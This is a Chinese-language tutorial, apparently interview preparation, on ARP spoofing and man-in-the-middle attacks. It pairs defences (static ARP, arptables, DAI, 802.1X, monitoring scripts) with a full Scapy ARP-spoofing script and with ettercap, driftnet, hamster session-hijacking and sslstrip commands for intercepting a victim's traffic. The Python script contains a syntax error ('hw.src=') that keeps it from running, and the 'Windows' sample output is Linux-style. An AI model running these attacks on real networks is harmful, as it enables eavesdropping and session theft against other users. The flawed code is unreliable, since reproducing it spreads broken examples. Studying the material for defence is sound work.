


# ARP 欺骗与中间人攻击

你在网吧上网，用 Wireshark 抓包，突然发现室友的流量竟然出现在你的抓包窗口里。这不是魔法——是 ARP 欺骗。

ARP（Address Resolution Protocol）是局域网中将 IP 地址转换为 MAC 地址的协议。由于它没有任何认证机制，攻击者可以伪造 ARP 响应，将自己伪装成网关或其他主机，从而实施中间人攻击（MITM）。本篇将深入解析 ARP 欺骗的原理、攻击手法和防御方案。

## ARP 协议原理

### 为什么需要 ARP？

在以太网中，设备通过 MAC 地址通信。但应用层使用的是 IP 地址。ARP 就是解决「已知 IP，如何找到对应的 MAC 地址」这个问题。



### ARP 报文结构

```
以太网头 (14 字节):
  目标 MAC: FF:FF:FF:FF:FF:FF (广播)
  源 MAC:   AA:BB:CC:DD:EE:00
  类型:     0x0806 (ARP)

ARP 包 (28 字节):
  硬件类型: 1 (以太网)
  协议类型: 0x0800 (IPv4)
  硬件地址长度: 6
  协议地址长度: 4
  操作码:   1 (请求) / 2 (响应)
  发送者 MAC: AA:BB:CC:DD:EE:00
  发送者 IP:  10.0.0.1
  目标 MAC:  00:00:00:00:00:00
  目标 IP:   10.0.0.254
```

```bash
# 查看 ARP 缓存
arp -a

# Windows 示例输出
# ? (10.0.0.254) at aa:bb:cc:dd:ee:ff [ether] on eth0

# 查看 ARP 表详细信息
ip neigh show

# Linux: 10.0.0.254 dev eth0 lladdr aa:bb:cc:dd:ee:ff REACHABLE
```

## ARP 欺骗原理

### 无认证的致命缺陷

ARP 协议没有任何认证机制！任何主机都可以发送 ARP 响应包，声称「IP X 的 MAC 是 Y」。接收者无条件接受这个响应。

### 攻击过程

正常情况下：

```
[主机A] ←─────────────── ARP 响应 ←────────────── [网关]
       (IP: 10.0.0.1)                          (IP: 10.0.0.254)
       MAC: AA:BB:CC:DD:EE:00                   MAC: 11:22:33:44:55:66
```

攻击者介入后：

```
[主机A] ←─── 欺骗响应 ──── [攻击者] ──── 转发 ──── [网关]
       (IP: 10.0.0.1)     (MAC: TT:UU:VV:WW:XX:YY)    (IP: 10.0.0.254)
       MAC: AA:BB...       冒充网关 MAC                  MAC: 11:22...
```

攻击者发送伪造的 ARP 响应：

```
ARP 响应:
  IP:   10.0.0.254 (网关)
  MAC:  TT:UU:VV:WW:XX:YY (攻击者 MAC)
```

主机 A 更新 ARP 缓存后，所有发往网关的流量都会先经过攻击者。

## 中间人攻击（MITM）

### 完整攻击流程



### Python 实现 ARP 欺骗

```python
#!/usr/bin/env python3
from scapy.all import *
import sys
import time

def get_mac(ip):
    """获取指定 IP 的 MAC 地址"""
    resp, _ = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip),
                  timeout=2, verbose=False)
    for _, pkt in resp:
        return pkt[Ether].src
    return None

def arp_spoof(target_ip, spoof_ip, target_mac):
    """发送 ARP 欺骗包"""
    # 告诉目标：我才是 spoof_ip
    packet = Ether(dst=target_mac)/ARP(
        op=2,  # ARP 响应
        psrc=spoof_ip,  # 冒充的 IP
        pdst=target_ip,  # 目标 IP
        hwdst=target_mac  # 目标 MAC
    )
    sendp(packet, verbose=False)

def arp_restore(target_ip, gateway_ip, target_mac, gateway_mac):
    """恢复正常的 ARP 表"""
    packet = Ether(dst=target_mac)/ARP(
        op=2,
        psrc=gateway_ip,
        pdst=target_ip,
        hwdst=target_mac,
        hw.src=gateway_mac
    )
    sendp(packet, verbose=False)

def main():
    if len(sys.argv) != 3:
        print(f"用法: {sys.argv[0]} <目标 IP> <网关 IP>")
        sys.exit(1)

    target_ip = sys.argv[1]
    gateway_ip = sys.argv[2]

    print(f"目标: {target_ip}")
    print(f"网关: {gateway_ip}")

    # 获取 MAC 地址
    target_mac = get_mac(target_ip)
    gateway_mac = get_mac(gateway_ip)

    if not target_mac or not gateway_mac:
        print("无法获取 MAC 地址")
        sys.exit(1)

    print(f"目标 MAC: {target_mac}")
    print(f"网关 MAC: {gateway_mac}")

    # 启用 IP 转发（Linux）
    with open('/proc/sys/net/ipv4/ip_forward', 'w') as f:
        f.write('1\n')

    print("开始 ARP 欺骗... 按 Ctrl+C 停止")

    try:
        while True:
            # 欺骗目标：网关的 IP 在我这
            arp_spoof(target_ip, gateway_ip, target_mac)
            # 欺骗网关：目标的 IP 在我这（可选）
            arp_spoof(gateway_ip, target_ip, gateway_mac)
            time.sleep(2)
    except KeyboardInterrupt:
        print("\n恢复 ARP 表...")
        arp_restore(target_ip, gateway_ip, target_mac, gateway_mac)
        arp_restore(gateway_ip, target_ip, gateway_mac, target_mac)
        print("已恢复")

if __name__ == "__main__":
    main()
```

###ettercap 工具

```bash
# 安装
sudo apt install ettercap-graphical

# 图形界面
sudo ettercap -G

# 命令行模式
sudo ettercap -i eth0 -T -M arp:remote /192.168.1.1// /192.168.1.100//
# -M: MITM 模式
# arp:remote: ARP 欺骗 + 远程嗅探
```

### Driftnet 流量图片嗅探

```bash
# 实时捕获网络图片
sudo driftnet -i eth0

# 保存到目录
sudo driftnet -i eth0 -d /tmp/captured/
```

## 防御措施

### 静态 ARP 表

最简单但不可扩展的方案。

```bash
# 添加静态 ARP 条目
sudo arp -s 192.168.1.1 11:22:33:44:55:66

# 开机自动生效 (RHEL/CentOS)
/etc/ethers
192.168.1.1 11:22:33:44:55:66

# 应用
/usr/sbin/arp -f /etc/ethers
```

```bash
# systemd 服务自动配置
# /etc/systemd/system/arp-static.service
[Unit]
Description=Static ARP entries

[Service]
Type=oneshot
ExecStart=/usr/sbin/arp -f /etc/ethers

[Install]
WantedBy=multi-user.target
```

:::warning
静态 ARP 只适合小规模网络。维护成本高，主机 IP 变更时需要同步更新。
:::

### ARP 防火墙

```bash
# Linux: 使用 arptables 防御
# 拒绝非网关的 ARP 响应
arptables -A INPUT -s ! 192.168.1.1 -j DROP

# Windows: 使用 ARP 防火墙软件
# -金山ARP防火墙
# -Simple ARP Firewall
```

### 动态 ARP 检测（DAI）

在交换机上启用 DAI（Dynamic ARP Inspection），验证 ARP 报文的合法性。

```txt
// Cisco 交换机配置
// 启用 DHCP Snooping 建立 IP-MAC 绑定表
ip dhcp snooping vlan 10
ip dhcp snooping

// 启用 DAI
ip arp inspection vlan 10

// 信任上联端口
interface GigabitEthernet0/1
    ip arp inspection trust

// 限制 ARP 速率
ip arp inspection limit rate 100
```

### 802.1X 端口认证

```txt
// 交换机端口认证
interface GigabitEthernet0/2
    switchport mode access
    authentication port-control auto
    dot1x pae authenticator
```

## 检测工具

### ARP 监控脚本

```bash
#!/bin/bash
# arp-monitor.sh - 检测 ARP 异常

ALLOWED_MACS=(
    "11:22:33:44:55:66"  # 网关
    "aa:bb:cc:dd:ee:00"  # 信任主机
)

arp_table=$(arp -a | grep -v "^?")
gateway_ip="192.168.1.1"
gateway_mac=$(arp -a | grep "$gateway_ip" | awk '{print $4}')

echo "[$(date)] 检测 ARP 表..."
echo "网关 IP: $gateway_ip"
echo "网关 MAC: $gateway_mac"

# 检测是否有其他 MAC 声称是网关
all_macs=$(arp -a | awk '{print $4}' | grep -v "^on" | sort -u)
for mac in $all_macs; do
    if [ "$mac" != "$gateway_mac" ]; then
        # 检查是否有重复 IP（不同 MAC）
        suspicious=$(arp -a | grep "$mac" | wc -l)
        if [ $suspicious -gt 1 ]; then
            echo "⚠️  警告: 发现可疑 MAC: $mac"
            arp -a | grep "$mac"
        fi
    fi
done
```

### arpwatch

```bash
# 安装
sudo apt install arpwatch

# 启动监控
sudo systemctl start arpwatch
sudo journalctl -u arpwatch -f

# 日志位置
# /var/log/arpwatch
# 检测到变化时自动发送邮件通知
```

## MITM 攻击场景

### HTTP 会话劫持

```bash
# 使用 ferret 和 hamster 劫持会话
sudo apt install ferret hamster

# 劫持并保存流量
sudo ettercap -T -i eth0 -M arp:remote // // -w capture.pcap

# 分析劫持的会话
hamster

# 浏览器访问 http://hamster
```

### SSL Stripping

将 HTTPS 连接降级为 HTTP：

```bash
# 使用 sslstrip
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 10000
sslstrip -w sslstrip.log -l 10000

# 结合 arpspoof
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.100 192.168.1.1
```

:::warning
SSL Stripping 对现代 HTTPS 网站效果有限，因为 HSTS 和浏览器安全机制会阻止降级。
:::

## 面试追问方向

- ARP 协议为什么没有认证机制？设计缺陷是什么？
- 如何防御 ARP 欺骗？
- 中间人攻击的前提条件是什么？
- 如何检测网络是否正在被 ARP 欺骗？
- 静态 ARP 和动态 ARP 的区别？
- DAI（动态 ARP 检测）的工作原理？

> 理解 ARP 欺骗的原理，才能从根本上防御它。安全不是靠一个工具，而是一套体系。
